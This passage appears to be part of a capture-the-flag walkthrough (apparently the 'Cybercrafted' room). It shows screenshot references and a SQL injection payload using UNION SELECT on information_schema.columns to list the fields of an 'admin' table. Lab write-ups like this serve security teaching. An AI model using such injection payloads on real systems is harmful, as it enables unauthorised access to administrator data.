 ![](/assets/img/post_images/cybercrafted/Inkedscreenshot7.jpg)

The `admin` table at the bottom looks promising. Next we'll see what fields the `admin` table has with `' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_name='admin'-- -`
